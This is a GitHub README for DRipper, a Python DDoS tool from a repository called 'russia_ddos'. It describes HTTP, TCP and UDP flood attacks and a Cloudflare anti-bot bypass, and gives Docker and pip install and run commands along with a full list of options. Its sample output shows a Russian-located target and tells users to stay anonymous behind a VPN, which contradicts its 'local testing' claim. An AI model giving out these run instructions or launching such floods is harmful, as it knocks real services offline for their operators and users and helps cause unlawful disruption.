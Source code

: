 # DRipper

[![Build status][actions build badge]][actions build link]
[![Docker Pulls][docker pulls badge]][docker pulls link]
[![Docker Image Version (latest semver)][dockerhub badge]][dockerhub link]
[![License: MIT][license badge]][license link]

DESCRIPTION
-----------

This is reworked version of [DRipper](https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54).
This script support HTTP/TCP/UDP flood attack. We recommend using this script for your own test purposes in the local (on-premise) environment to improve your own web services against DDoS attacks.

## Prerequisites

- Python 3.9 or higher
- Docker (optional) if you'd like to run script with docker

## Features

### Attacks

- HTTP Flood - OSI Layer 7 method volumetric attack type
- HTTP Bypass - OSI Layer 7 method volumetric attack type with to bypass Cloudflare's anti-bot page (also known as "I'm Under Attack Mode", or IUAM)
- TCP Flood - OSI Layer 4 method volumetric attack type
- UDP Flood - OSI Layer 4 method volumetric attack type

### Other features

- Detailed statistics with deep attack log for better attack analysis during the attack
- Display average request rate and throughput
- Periodic checks of your public IP address to ensure your privacy and VPN connection survivability.
- Automatic and periodic checks for the availability of the attacked host
- Distributed statistics of the response code for the attacked host, which helps you to understand the effectiveness of attacks
- Detection of redirects and rate limits with alerts in the event log

## How it looks

```bash
──────────────────────────────────── Starting DRipper ────────────────────────────────────
[23:29:24] (1/5) Trying connect to www.localhost.orc:443...                services.py:108
──────────────────────────────────────────────────────────────────────────────────────────


                   ██████╗ ██████═╗██╗██████╗ ██████╗ ███████╗██████═╗
                   ██╔══██╗██╔══██║██║██╔══██╗██╔══██╗██╔════╝██╔══██║
                   ██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝
                   ██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
                   ██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║
                   ╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝
                                                               v2.3.0

             It is the end user's responsibility to obey all applicable laws.
             It is just like a server testing script and Your IP is visible.
                           Please, make sure you are ANONYMOUS!

                        https://github.com/alexmon1989/russia_ddos

 ────────────────────────────────────────────────────────────────────────────────────────
  Description                         Status
 ────────────────────────────────────────────────────────────────────────────────────────
  Start Time, duration                2022-03-31 23:29:23 - 0:00:33
  Your Country, Public IP             DK   45.*.*.*
  Host Country, IP                    RU   127.0.0.1:443
  HTTP Request                        GET: https://www.localhost.orc:443/
  Attack Method                       http-flood
 ────────────────────────────────────────────────────────────────────────────────────────
  Threads                             2
  vCPU Count                          16
  Socket Timeout (seconds)            1
  Random Packet Length                False
 ────────────────────────────────────────────────────────────────────────────────────────
  CloudFlare DNS Protection           Not protected
  Last Availability Check             23:29:36
  Host Availability                   Accessible in 19 of 21 zones (90%)
 ────────────────────────────────────────────────────────────────────────────────────────
  HTTP-FLOOD Statistics
 ────────────────────────────────────────────────────────────────────────────────────────
  Sent Bytes @ AVG speed                  99.18 MB @ 2.92 MB/s
  Sent Packets @ AVG speed                 232,632 @ 6859 packets/s
  Connections                         success: 4, failed: 0, success rate: 100 %
 ────────────────────────────────────────────────────────────────────────────────────────
  Status Code Distribution            400: 100%
 ────────────────────────────────────────────────────────────────────────────────────────

  Events Log
 ────────────────────────────────────────────────────────────────────────────────────────
  [23:29:24]  info   thread-2    Set attack method to http-flood
  [23:29:24]  info   thread-1    Creating HTTP connection...
  [23:29:24]  info   thread-2    Creating HTTP connection...
  [23:29:25]  info   thread-5    Checking host statuses with check-host.net
  [23:29:34]  warn   thread-1    Checked Response status... 400: Bad Request
  [23:29:36]  info   thread-5    Host statuses updated with check-host.net
  [23:29:43]  warn   thread-2    Checked Response status... 400: Bad Request
  [23:29:54]  info   thread-2    Creating HTTP connection...
  [23:29:54]  warn   thread-1    Checked Response status... 400: Bad Request
  [23:29:54]  info   thread-1    Creating HTTP connection...

                            Press CTRL+C to interrupt process.

                                    #StandWithUkraine
```

## Usage

DRipper can run on Windows/Linux/macOS from command line.
We recommend to use `PowerShell` for Windows users to run the script, Linux/macOS users can use any shell.

Run `dripper --help` to see detailed params description.

```bash

██████╗ ██████═╗██╗██████╗ ██████╗ ███████╗██████═╗
██╔══██╗██╔══██║██║██╔══██╗██╔══██╗██╔════╝██╔══██║
██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝
██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║
╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝
                                           v2.0.0

It is the end user's responsibility to obey all applicable laws.
It is just like a server testing script and Your IP is visible.

Please, make sure you are ANONYMOUS!

Usage: dripper [options] arg

Options:
  -h, --help            show this help message and exit
  -s TARGET, --target=TARGET
                        Attack target in {scheme}://{hostname}[:{port}][{path}] format. Multiple targets allowed.
  -t THREADS_COUNT, --threads=THREADS_COUNT (default: 100)
                        Threads count.
  -r RANDOM_PACKET_LEN, --random_len=RANDOM_PACKET_LEN (default: 1)
                        Send random packets with random length. Turn on: 1, turn off: 0.
  -l MAX_RANDOM_PACKET_LEN, --max_random_packet_len=MAX_RANDOM_PACKET_LEN
                        Max random packets length (default: 48 for udp, 1000 for tcp, 0 for http).
  -m ATTACK_METHOD, --method=ATTACK_METHOD
                        Attack method: udp-flood, tcp-flood, http-flood. Could be auto-detected based on the scheme (protocol) of the target.
  -y FILENAME, --proxy_list=FILENAME
                        File (fs or http/https) with proxies in ip:port:username:password or ip:port line format.
                        Proxies will be ignored in udp attack!
                        Examples: proxylist.txt, https://proxies.com/fhjhajkdashdja
  -k PROXY_TYPE, --proxy_type=PROXY_TYPE (default socks5)
                        Type of proxy to work with. Supported types: socks5, socks4, http.
  -c STATE, --health_check=STATE (default: 1)
                        Controls health check availability. Turn on: 1, turn off: 0.
  -e HTTP_METHOD, --http_method=HTTP_METHOD (default: GET)
  -o SOCKET_TIMEOUT, --socket_timeout=SOCKET_TIMEOUT (default: 10 without proxy, 20 with proxy)
                        Timeout in seconds for socket connection is seconds.

Example: dripper -s http://192.168.0.1 -t 100
```

## How to Run

#### Using Docker

```bash
# HTTP flood
docker run -it --rm alexmon1989/dripper:latest -s http://127.0.0.1:80 -t 100 -m http-flood
# or
docker run -it --rm alexmon1989/dripper:latest -s http://127.0.0.1:80 -t 100
# or even
docker run -it --rm alexmon1989/dripper:latest -s http://127.0.0.1 -t 100

# TCP flood
docker run -it --rm alexmon1989/dripper:latest -s tcp://127.0.0.1:80 -t 100 -l 2048

# UDP flood
docker run -it --rm alexmon1989/dripper:latest -s udp://127.0.0.1:80 -t 100 -l 2048
```

#### Directly with Python.

Ensure you have Python 3.9 or better installed. Then clone this repo and run DRipper.py with params you need

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# Install dependencies
python3 -m pip install --upgrade pip git+https://github.com/alexmon1989/russia_ddos.git
# Run script
dripper -s udp://127.0.0.1:80 -t 100 -r 1


# ===== Alternative variant =====

# Install python dependencies:
pip install -r requirements.txt
# Run script
python3 DRipper.py -s udp://127.0.0.1:80 -t 100 -r 1
```

#### Kubernetes

You can deploy and run DRipper in Kubernetes cluster using [kube-dripper][kube-dripper-link] terraform configuration.
For details - see the [README][kube-dripper-readme] from **kube-dripper** project.

## How to run unit tests

#### Prepare
```bash
pip install pytest
```

#### Run
```bash
pytest
```

# License

This project is distributed under the MIT License, see [LICENSE](./LICENSE) for more information.

<!-- External links -->
[actions build badge]: https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml/badge.svg
[actions build link]:  https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml

[docker pulls link]:   https://hub.docker.com/r/alexmon1989/dripper
[docker pulls badge]:  https://img.shields.io/docker/pulls/alexmon1989/dripper
[dockerhub link]:      https://hub.docker.com/r/alexmon1989/dripper/tags
[dockerhub badge]:     https://img.shields.io/docker/v/alexmon1989/dripper?label=DockerHub

[kube-dripper-link]:   https://github.com/denismakogon/kube-dripper
[kube-dripper-readme]: https://github.com/denismakogon/kube-dripper/blob/main/README.md

[license badge]:       https://img.shields.io/badge/License-MIT-yellow.svg
[license link]:        ./LICENSE

